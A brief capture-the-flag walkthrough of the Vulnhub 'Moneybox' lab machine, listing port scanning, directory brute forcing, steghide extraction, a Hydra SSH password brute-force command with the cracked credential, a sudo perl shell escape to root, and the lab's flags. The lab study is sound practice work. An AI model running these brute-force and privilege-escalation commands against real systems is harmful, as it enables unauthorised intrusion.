## Vulnhub: Moneybox


#### Nmap
- 22/ftp
- 80/http

#### Web Enum
- Directory-Brute Forcing
  - /blgos
    - S3cr3t-T3xt
      - Secret Key 3xtr4ctd4t4

#### FTP Enum
- trytofind.jpg
  - steghide
    - Secret Key 3xtr4ctd4t4
      - read `data.txt`

#### Hydra
- hydra -l renu -P {ROCKYOU.txt} ExportIp ssh
  - renu :  987654321


#### Escalating
- ssh lily@ExportIp `lily login`
- /usr/bin/perl : `root`
  - sudo perl -e 'exec "/bin/sh";' 


#### flag
us3r1{F14g:0ku74tbd3777y4}
us3r{F14g:tr5827r5wu6nklao}
r00t{H4ckth3p14n3t}
